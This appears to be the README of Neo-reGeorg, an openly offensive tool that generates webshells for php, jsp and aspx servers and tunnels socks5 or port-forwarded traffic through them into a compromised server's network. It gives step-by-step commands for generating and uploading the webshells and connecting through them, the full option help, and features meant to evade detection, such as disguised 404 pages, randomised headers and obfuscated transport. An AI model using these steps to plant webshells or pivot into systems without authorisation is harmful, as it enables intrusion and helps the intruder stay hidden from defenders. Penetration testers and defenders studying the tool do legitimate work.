 Neo-reGeorg
=========

[简体中文](README.md)　｜　[English](README-en.md)

**Neo-reGeorg** is a project designed to actively restructure [reGeorg](https://github.com/sensepost/reGeorg) with the aim of:

* Improve tunnel connection security
* Improve usability and avoid feature detection
* Improve the confidentiality of transmission content
* Solve the existing problems of reGeorg and fix some small bugs



Version
----

2.6.0 - [Change Log](CHANGELOG-en.md)


Features
----

* Transfer content through out-of-order base64 encryption
* GET request response can be customized (such as masquerading 404 pages)
* HTTP Headers instructions are randomly generated to avoid feature detection
* HTTP Headers can be customized
* Custom HTTP response code
* Multiple URLs random requests
* Server-node DNS resolution
* Compatible with python2 / python3
* High compatibility of the server environment
* Refer to [pivotnacci](https://github.com/blackarrowsec/pivotnacci) to implement a single `SESSION` to create multiple TCP connections to deal with some load balancing scenarios
* Support HTTP forwarding, coping with load balancing environment


Dependencies
-----------

* [**requests**] - https://github.com/kennethreitz/requests




Basic Usage
--------------

* **Step 1.**
Set the password to generate tunnel server.(aspx|ashx|jsp|jspx|php) and upload it to the web server.
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp

```

* **Step 2.**
Use `neoreg.py` to connect to the web server and create a socks5 proxy locally.
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [DEBUG]
  Starting socks server [127.0.0.1:1080]
  Tunnel at:
    http://xx/tunnel.php
+------------------------------------------------------------------------+
```

   Note that if your tool, such as `nmap` does not support socks5 proxy, please use [proxychains](https://github.com/rofl0r/proxychains-ng) 




Advanced Usage
--------------

1. Support the generated server, by default directly requesting and responding to the specified page content (such as a disguised 404 page)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html
$ python neoreg.py -k <you_password> -u <server_url> --skip
```

2. For example, the server WEB needs to set the proxy to access
```ruby
$ python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. To set `Authorization`, there are also custom `Header` or `Cookie` content.
```ruby
$ python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"
```

4. Need to disperse requests, upload to multiple paths, such as memory-webshell
```ruby
$ python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...
```

5. Turn on http forwarding to cope with load balancing
```ruby
$ python neoreg.py -k <you_password> -u <url> -r <redirect_url>
```

6. Use the port forwarding function, do not start the socks5 service ( 127.0.0.1:1080 -> ip:port )
```ruby
$ python neoreg.py -k <you_password> -u <url> -t <ip:port>
```

* For more information on performance and stability parameters, refer to -h help information
```ruby
# Generate server-side scripts
$ python neoreg.py generate -h
    usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [-c CODE] [--read-buff Bytes]

    Generate neoreg webshell

    optional arguments:
      -h, --help            show this help message and exit
      -k KEY, --key KEY     Specify connection key.
      -o DIR, --outdir DIR  Output directory.
      -f FILE, --file FILE  Camouflage html page file
      -c CODE, --httpcode CODE
                            Specify HTTP response code. When using -r, it is
                            recommended to <400. (default: 200)
      --read-buff Bytes     Remote read buffer. (default: 513)

# Connection server
$ python neoreg.py -h
    usage: neoreg.py [-h] -u URI [-r URL] [-t IP:PORT] -k KEY [-l IP] [-p PORT]
                     [-s] [-H LINE] [-c LINE] [-x LINE] [--local-dns]
                     [--read-buff Bytes] [--read-interval MS]
                     [--write-interval MS] [--max-threads N] [-v]

    Socks server for Neoreg HTTP(s) tunneller. DEBUG MODE: -k
    (debug_all|debug_base64|debug_headers_key|debug_headers_values)

    optional arguments:
      -h, --help            show this help message and exit
      -u URI, --url URI     The url containing the tunnel script
      -r URL, --redirect-url URL
                            Intranet forwarding the designated server (only
                            jsp(x))
      -t IP:PORT, --target IP:PORT
                            Network forwarding Target, After setting this
                            parameter, port forwarding will be enabled
      -k KEY, --key KEY     Specify connection key
      -l IP, --listen-on IP
                            The default listening address.(default: 127.0.0.1)
      -p PORT, --listen-port PORT
                            The default listening port.(default: 1080)
      -s, --skip            Skip usability testing
      -H LINE, --header LINE
                            Pass custom header LINE to server
      -c LINE, --cookie LINE
                            Custom init cookies
      -x LINE, --proxy LINE
                            Proto://host[:port] Use proxy on given port
      --local-dns           Use local resolution DNS
      --read-buff Bytes     Local read buffer, max data to be sent per
                            POST.(default: 2048 max: 2600)
      --read-interval MS    Read data interval in milliseconds.(default: 300)
      --write-interval MS   Write data interval in milliseconds.(default: 200)
      --max-threads N       Proxy max threads.(default: 1000)
      -v                    Increase verbosity level (use -vv or more for greater
                            effect)
```



Remind
----

* When running `neoreg.py` with high concurrency on Mac OSX, a large number of network requests will be lost. You can use `ulimit -n 2560` to modify the "maximum number of open files" of the current shell.



TODO
----

* HTTP body steganography

* Transfer Target field steganography



License
----

GPL 3.0


Stargazers over time
----

[![Stargazers over time](https://starchart.cc/L-codes/Neo-reGeorg.svg)](https://starchart.cc/L-codes/Neo-reGeorg)
